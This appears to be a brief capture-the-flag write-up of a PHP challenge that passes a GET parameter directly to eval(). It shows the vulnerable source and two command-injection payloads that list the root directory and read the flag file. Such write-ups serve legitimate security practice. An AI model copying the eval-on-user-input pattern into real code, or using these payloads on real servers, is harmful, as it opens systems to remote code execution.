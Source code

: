 #RCE

```php
<?php
	error_reporting(0);
	highlight_file(__FILE__);
	if(isset($_GET['url']))
	{
		eval($_GET['url']);
	}
?>
```

执行命令  
`?url=system("ls /");`  
查看全部文件

发现 flllllaaaaaaggggggg  
查看 flag
`?url=system("cat /fll*");`
